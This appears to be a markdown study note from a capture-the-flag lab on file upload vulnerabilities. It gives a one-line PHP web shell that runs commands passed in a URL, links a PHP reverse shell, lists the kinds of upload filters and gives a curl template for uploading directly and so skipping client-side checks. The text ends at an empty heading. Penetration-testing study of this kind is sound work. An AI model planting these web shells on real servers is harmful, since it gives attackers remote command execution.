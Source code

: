 # WebShells RCE Upload Vulnerabilities

there are a variety of webshells available on Kali by default at `/usr/share/webshells` -- including the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) -- a full reverse shell written in PHP

```php
<?php
    echo system($_GET["cmd"]);
?>
```

- add this to a web directory with a filename like 'webshell.php'
- then navigate to the file you uploaded and add to the url your console cmd
  
>e.g. `http://shell.uploadvulns.thm/resources/webshell.php?cmd=id;whoami;ls`

then from here we can upload an RCE

>https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

When the target is ***Windows***, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. 
To obtain RCE using a web shell you need to use ***URL Encoded Powershell Reverse Shell***. This would be copied into the URL as the `cmd` argument:

---

## Client-side filtering and server-side filtering

- Extension Validation
- File Type Filtering
  - MIME validation
  - Magic Number validation
- File Length Filtering
- File Name Filtering
- File Content Filtering

---

## Bypass file filtering

### Send the file directly to the upload point

Why use the webpage with the filter, when you can send the file directly using a tool like curl?

```
curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>
```

>To use this method you would first aim to intercept a successful upload (using Burpsuite or the browser console) to see the parameters being used in the upload, which can then be slotted into the above command.

## Bypassing Server-Side Filtering
